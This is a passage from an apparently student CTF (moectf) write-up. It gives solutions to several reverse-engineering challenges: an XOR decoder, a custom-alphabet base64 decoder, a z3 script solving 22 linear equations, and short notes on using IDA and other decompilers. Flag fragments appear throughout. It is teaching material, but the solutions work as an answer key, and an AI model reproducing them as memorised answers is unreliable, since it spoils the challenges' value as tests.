information security, sometimes shortened to infosec, is the practice of protecting information by mitigating information risks. it is part of information risk management. it typically involves preventing or reducing the probability of unauthorized/inappropriate access to data, or the unlawful use, disclosure, disruption, deletion, corruption, modification, inspection, recording, or devaluation of information. it also involves actions intended to reduce the adverse impacts of such incidents. protected information may take any form, e.g. electronic or physical, tangible (e.g. paperwork) or intangible (e.g. knowledge). information security's primary focus is the balanced protection of the confidentiality, integrity, and availability of data (also known as the cia triad) while maintaining a focus on efficient policy implementation, all without hampering organization productivity. this is largely achieved through a structured risk management process that involves:
1. identifying information and related assets, plus potential threats, vulnerabilities, and impacts;
2. evaluating the risks
3. deciding how to address or treat the risks i.e. to avoid, mitigate, share or accept them
4. where risk mitigation is required, selecting or designing appropriate security controls and implementing them
5. monitoring the activities, making adjustments as necessary to address any issues, changes and improvement opportunities
6. i won't tell you that the flag is moectf attacking the vigenere cipher is interesting
to standardize this discipline, academics and professionals collaborate to offer guidance, policies, and industry standards on password, antivirus software, firewall, encryption software, legal liability, security awareness and training, and so forth. this standardization may be further driven by a wide variety of laws and regulations that affect how data is accessed, processed, stored, transferred and destroyed. however, the implementation of any standards and guidance within an entity may have limited effect if a culture of continual improvement isn't adopted.
```

## Reverse

### check in

拖入ida反编译找到flag

### 入门指北

最后面拿到flag

### Hex

010editor打开，flag在最后

### begin

拖入ida反编译后可以发现是很简单的异或

```python
b='bA)kF(jFj)Fpwm*k*jmpw~88888d'
flag='moectf'
for i in b:
    flag+=chr(ord(i)^0x19)
print(flag)
```

### base

换表后的base64，表和编码后的数据都给出了

直接写脚本

```python
import base64
import string

str1 = "1wX/yRrA4RfR2wj72Qv52x3L5qa="

string1 = "abcdefghijklmnopqrstuvwxyz0123456789+/ABCDEFGHIJKLMNOPQRSTUVWXYZ"
string2 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

a=str1.translate(str.maketrans(string1,string2))

print(base64.b64decode(a).decode())
```

### EquationPy

pyc在线反编译后

发现要解22个一元方程

用z3解方程即可

```python
from operator import mod
from re import S
from attr import attr
from z3 import *


flag_0,flag_1,flag_2,flag_3,flag_4,flag_5,flag_6,flag_7,flag_8,flag_9,flag_10,flag_11,flag_12,flag_13,flag_14,flag_15,flag_16,flag_17,flag_18,flag_19,flag_20,flag_21, = Ints('flag_0 flag_1 flag_2 flag_3 flag_4 flag_5 flag_6 flag_7 flag_8 flag_9 flag_10 flag_11 flag_12 flag_13 flag_14 flag_15 flag_16 flag_17 flag_18 flag_19 flag_20 flag_21')

x = Solver()

x.add(flag_0 * 7072 + flag_1 * 2523 + flag_2 * 6714 + flag_3 * 8810 + flag_4 * 6796 + flag_5 * 2647 + flag_6 * 1347 + flag_7 * 1289 + flag_8 * 8917 + flag_9 * 2304 + flag_10 * 5001 + flag_11 * 2882 + flag_12 * 7232 + flag_13 * 3192 + flag_14 * 9676 + flag_15 * 5436 + flag_16 * 4407 + flag_17 * 6269 + flag_18 * 9623 + flag_19 * 6230 + flag_20 * 6292 + flag_21 * 57 == 10743134 )
x.add( flag_0 * 3492 + flag_1 * 1613 + flag_2 * 3234 + flag_3 * 5656 + flag_4 * 9182 + flag_5 * 4240 + flag_6 * 8808 + flag_7 * 9484 + flag_8 * 4000 + flag_9 * 1475 + flag_10 * 2616 + flag_11 * 2766 + flag_12 * 6822 + flag_13 * 1068 + flag_14 * 9768 + flag_15 * 1420 + flag_16 * 4528 + flag_17 * 1031 + flag_18 * 8388 + flag_19 * 2029 + flag_20 * 2463 + flag_21 * 32 == 9663091 )
x.add( flag_0 * 9661 + flag_1 * 1108 + flag_2 * 2229 + flag_3 * 1256 + flag_4 * 7747 + flag_5 * 5775 + flag_6 * 5211 + flag_7 * 2387 + flag_8 * 1997 + flag_9 * 4045 + flag_10 * 7102 + flag_11 * 7853 + flag_12 * 5596 + flag_13 * 6952 + flag_14 * 8883 + flag_15 * 5125 + flag_16 * 9572 + flag_17 * 1149 + flag_18 * 7583 + flag_19 * 1075 + flag_20 * 9804 + flag_21 * 72 == 10521461 )
x.add( flag_0 * 4314 + flag_1 * 3509 + flag_2 * 6200 + flag_3 * 5546 + flag_4 * 1705 + flag_5 * 9518 + flag_6 * 2975 + flag_7 * 2689 + flag_8 * 2412 + flag_9 * 8659 + flag_10 * 5459 + flag_11 * 7572 + flag_12 * 3042 + flag_13 * 9701 + flag_14 * 4697 + flag_15 * 9863 + flag_16 * 1296 + flag_17 * 1278 + flag_18 * 5721 + flag_19 * 5116 + flag_20 * 4147 + flag_21 * 52 == 9714028 )
x.add( flag_0 * 2310 + flag_1 * 1379 + flag_2 * 5900 + flag_3 * 4876 + flag_4 * 5329 + flag_5 * 6485 + flag_6 * 6610 + flag_7 * 7179 + flag_8 * 7897 + flag_9 * 1094 + flag_10 * 4825 + flag_11 * 8101 + flag_12 * 9519 + flag_13 * 3048 + flag_14 * 3168 + flag_15 * 2775 + flag_16 * 4366 + flag_17 * 4066 + flag_18 * 7490 + flag_19 * 5533 + flag_20 * 2139 + flag_21 * 87 == 10030960 )
x.add( flag_0 * 1549 + flag_1 * 8554 + flag_2 * 6510 + flag_3 * 6559 + flag_4 * 5570 + flag_5 * 1003 + flag_6 * 8562 + flag_7 * 6793 + flag_8 * 3509 + flag_9 * 4965 + flag_10 * 6111 + flag_11 * 1229 + flag_12 * 5654 + flag_13 * 2204 + flag_14 * 2217 + flag_15 * 5039 + flag_16 * 5657 + flag_17 * 9426 + flag_18 * 7604 + flag_19 * 5883 + flag_20 * 5285 + flag_21 * 17 == 10946682 )
x.add( flag_0 * 2678 + flag_1 * 4369 + flag_2 * 7509 + flag_3 * 1564 + flag_4 * 7777 + flag_5 * 2271 + flag_6 * 9696 + flag_7 * 3874 + flag_8 * 2212 + flag_9 * 6764 + flag_10 * 5727 + flag_11 * 5971 + flag_12 * 5876 + flag_13 * 9959 + flag_14 * 4604 + flag_15 * 8461 + flag_16 * 2350 + flag_17 * 3564 + flag_18 * 1831 + flag_19 * 6088 + flag_20 * 4575 + flag_21 * 9 == 10286414 )
x.add( flag_0 * 8916 + flag_1 * 8647 + flag_2 * 4522 + flag_3 * 3579 + flag_4 * 5319 + flag_5 * 9124 + flag_6 * 9535 + flag_7 * 5125 + flag_8 * 3235 + flag_9 * 3246 + flag_10 * 3378 + flag_11 * 9221 + flag_12 * 1875 + flag_13 * 1008 + flag_14 * 6262 + flag_15 * 1524 + flag_16 * 8851 + flag_17 * 4367 + flag_18 * 7628 + flag_19 * 9404 + flag_20 * 2065 + flag_21 * 9 == 11809388 )
x.add( flag_0 * 9781 + flag_1 * 9174 + flag_2 * 3771 + flag_3 * 6972 + flag_4 * 6425 + flag_5 * 7631 + flag_6 * 8864 + flag_7 * 9117 + flag_8 * 4328 + flag_9 * 3919 + flag_10 * 6517 + flag_11 * 7165 + flag_12 * 6895 + flag_13 * 3609 + flag_14 * 3878 + flag_15 * 1593 + flag_16 * 9098 + flag_17 * 6432 + flag_18 * 2584 + flag_19 * 8403 + flag_20 * 4029 + flag_21 * 30 == 13060508 )
x.add( flag_0 * 2511 + flag_1 * 8583 + flag_2 * 2428 + flag_3 * 9439 + flag_4 * 3662 + flag_5 * 3278 + flag_6 * 8305 + flag_7 * 1100 + flag_8 * 7972 + flag_9 * 8510 + flag_10 * 8552 + flag_11 * 9993 + flag_12 * 6855 + flag_13 * 1702 + flag_14 * 1640 + flag_15 * 3787 + flag_16 * 8161 + flag_17 * 2110 + flag_18 * 5320 + flag_19 * 3313 + flag_20 * 9286 + flag_21 * 74 == 10568195 )
x.add( flag_0 * 4974 + flag_1 * 4445 + flag_2 * 7368 + flag_3 * 9132 + flag_4 * 5894 + flag_5 * 7822 + flag_6 * 7923 + flag_7 * 6822 + flag_8 * 2698 + flag_9 * 3643 + flag_10 * 8392 + flag_11 * 4126 + flag_12 * 1941 + flag_13 * 6641 + flag_14 * 2949 + flag_15 * 7405 + flag_16 * 9980 + flag_17 * 6349 + flag_18 * 3328 + flag_19 * 8766 + flag_20 * 9508 + flag_21 * 65 == 12514783 )
x.add( flag_0 * 4127 + flag_1 * 4703 + flag_2 * 6409 + flag_3 * 4907 + flag_4 * 5230 + flag_5 * 3371 + flag_6 * 5666 + flag_7 * 3194 + flag_8 * 5448 + flag_9 * 8415 + flag_10 * 4525 + flag_11 * 4152 + flag_12 * 1467 + flag_13 * 5254 + flag_14 * 2256 + flag_15 * 1643 + flag_16 * 9113 + flag_17 * 8805 + flag_18 * 4315 + flag_19 * 8371 + flag_20 * 1919 + flag_21 * 2 == 10299950 )
x.add( flag_0 * 6245 + flag_1 * 8783 + flag_2 * 6059 + flag_3 * 9375 + flag_4 * 9253 + flag_5 * 1974 + flag_6 * 8867 + flag_7 * 6423 + flag_8 * 2577 + flag_9 * 6613 + flag_10 * 2040 + flag_11 * 2209 + flag_12 * 4147 + flag_13 * 7151 + flag_14 * 1011 + flag_15 * 9446 + flag_16 * 4362 + flag_17 * 3073 + flag_18 * 3006 + flag_19 * 5499 + flag_20 * 8850 + flag_21 * 23 == 11180727 )
x.add( flag_0 * 1907 + flag_1 * 9038 + flag_2 * 3932 + flag_3 * 7054 + flag_4 * 1135 + flag_5 * 5095 + flag_6 * 6962 + flag_7 * 6481 + flag_8 * 7049 + flag_9 * 5995 + flag_10 * 6233 + flag_11 * 1321 + flag_12 * 4455 + flag_13 * 8181 + flag_14 * 5757 + flag_15 * 6953 + flag_16 * 3167 + flag_17 * 5508 + flag_18 * 4602 + flag_19 * 1420 + flag_20 * 3075 + flag_21 * 25 == 10167536 )
x.add( flag_0 * 1489 + flag_1 * 9236 + flag_2 * 7398 + flag_3 * 4088 + flag_4 * 4131 + flag_5 * 1657 + flag_6 * 9068 + flag_7 * 6420 + flag_8 * 3970 + flag_9 * 3265 + flag_10 * 5343 + flag_11 * 5386 + flag_12 * 2583 + flag_13 * 2813 + flag_14 * 7181 + flag_15 * 9116 + flag_16 * 4836 + flag_17 * 6917 + flag_18 * 1123 + flag_19 * 7276 + flag_20 * 2257 + flag_21 * 65 == 10202212 )
x.add( flag_0 * 2097 + flag_1 * 1253 + flag_2 * 1469 + flag_3 * 2731 + flag_4 * 9565 + flag_5 * 9185 + flag_6 * 1095 + flag_7 * 8666 + flag_8 * 2919 + flag_9 * 7962 + flag_10 * 1497 + flag_11 * 6642 + flag_12 * 4108 + flag_13 * 6892 + flag_14 * 7161 + flag_15 * 7552 + flag_16 * 5666 + flag_17 * 4060 + flag_18 * 7799 + flag_19 * 5080 + flag_20 * 8516 + flag_21 * 43 == 10435786 )
x.add( flag_0 * 1461 + flag_1 * 1676 + flag_2 * 4755 + flag_3 * 7982 + flag_4 * 3860 + flag_5 * 1067 + flag_6 * 6715 + flag_7 * 4019 + flag_8 * 4983 + flag_9 * 2031 + flag_10 * 1173 + flag_11 * 2241 + flag_12 * 2594 + flag_13 * 8672 + flag_14 * 4810 + flag_15 * 7963 + flag_16 * 7749 + flag_17 * 5730 + flag_18 * 9855 + flag_19 * 5858 + flag_20 * 2349 + flag_21 * 71 == 9526385 )
x.add( flag_0 * 9025 + flag_1 * 9536 + flag_2 * 1515 + flag_3 * 8177 + flag_4 * 6109 + flag_5 * 4856 + flag_6 * 6692 + flag_7 * 4929 + flag_8 * 1010 + flag_9 * 3995 + flag_10 * 3511 + flag_11 * 5910 + flag_12 * 3501 + flag_13 * 3731 + flag_14 * 6601 + flag_15 * 6200 + flag_16 * 8177 + flag_17 * 5488 + flag_18 * 5957 + flag_19 * 9661 + flag_20 * 4956 + flag_21 * 48 == 11822714 )
x.add( flag_0 * 4462 + flag_1 * 1940 + flag_2 * 5956 + flag_3 * 4965 + flag_4 * 9268 + flag_5 * 9627 + flag_6 * 3564 + flag_7 * 5417 + flag_8 * 2039 + flag_9 * 7269 + flag_10 * 9667 + flag_11 * 4158 + flag_12 * 2856 + flag_13 * 2851 + flag_14 * 9696 + flag_15 * 5986 + flag_16 * 6237 + flag_17 * 5845 + flag_18 * 5467 + flag_19 * 5227 + flag_20 * 4771 + flag_21 * 72 == 11486796 )
x.add( flag_0 * 4618 + flag_1 * 8621 + flag_2 * 8144 + flag_3 * 7115 + flag_4 * 1577 + flag_5 * 8602 + flag_6 * 3886 + flag_7 * 3712 + flag_8 * 1258 + flag_9 * 7063 + flag_10 * 1872 + flag_11 * 9855 + flag_12 * 4167 + flag_13 * 7615 + flag_14 * 6298 + flag_15 * 7682 + flag_16 * 8795 + flag_17 * 3856 + flag_18 * 6217 + flag_19 * 5764 + flag_20 * 5076 + flag_21 * 93 == 11540145 )
x.add( flag_0 * 7466 + flag_1 * 8442 + flag_2 * 4822 + flag_3 * 7639 + flag_4 * 2049 + flag_5 * 7311 + flag_6 * 5816 + flag_7 * 8433 + flag_8 * 5905 + flag_9 * 4838 + flag_10 * 1251 + flag_11 * 8184 + flag_12 * 6465 + flag_13 * 4634 + flag_14 * 5513 + flag_15 * 3160 + flag_16 * 6720 + flag_17 * 9205 + flag_18 * 6671 + flag_19 * 7716 + flag_20 * 1905 + flag_21 * 29 == 12227250 )
x.add( flag_0 * 5926 + flag_1 * 9095 + flag_2 * 2048 + flag_3 * 4639 + flag_4 * 3035 + flag_5 * 9560 + flag_6 * 1591 + flag_7 * 2392 + flag_8 * 1812 + flag_9 * 6732 + flag_10 * 9454 + flag_11 * 8175 + flag_12 * 7346 + flag_13 * 6333 + flag_14 * 9812 + flag_15 * 2034 + flag_16 * 6634 + flag_17 * 1762 + flag_18 * 7058 + flag_19 * 3524 + flag_20 * 7462 + flag_21 * 11 == 11118093)

check = x.check()
for i in range(22):
    model = x.model().eval(eval('flag_'+str(i)))
    print(chr(int(str(model))),end='')
```

### Android Cracker

找个能用的安卓反编译软件反编译后直接看**flag**即可


